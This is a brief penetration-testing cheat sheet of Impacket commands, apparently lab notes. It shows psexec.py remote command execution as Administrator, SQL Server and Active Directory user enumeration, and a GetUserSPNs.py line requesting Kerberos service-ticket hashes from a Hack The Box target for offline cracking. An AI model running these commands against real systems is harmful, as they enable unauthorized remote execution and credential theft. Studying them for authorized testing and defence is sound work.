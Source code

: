 ```yaml
---
description: /opt/impacket/examples
---
```


# Impact Scripts

## PSEXEC.py&#x20;

Used for SMB connect and code execution

```bash
psexec.py Administrator@<IP> -p Pa$$w0rd cmd.exe
```

## MsSqlClient.py

used for connecting Microsoft Windows SQL Server

```bash
mssqlclient.py [-db volume] -windows-auth <DOMAIN>/<USERNAME>:<PASSWORD>@<IP>
```

## GetADUsers.py

used to list all the users in SMB connection

```bash
GetADUsers.py -all <DOMAIN>/<USERNAME>:<password> -dc-ip <IP>

GetUserSPNs.py active.htb/svc_tgs -dc-ip 10.10.10.100 -request -save -outputfile hash
```
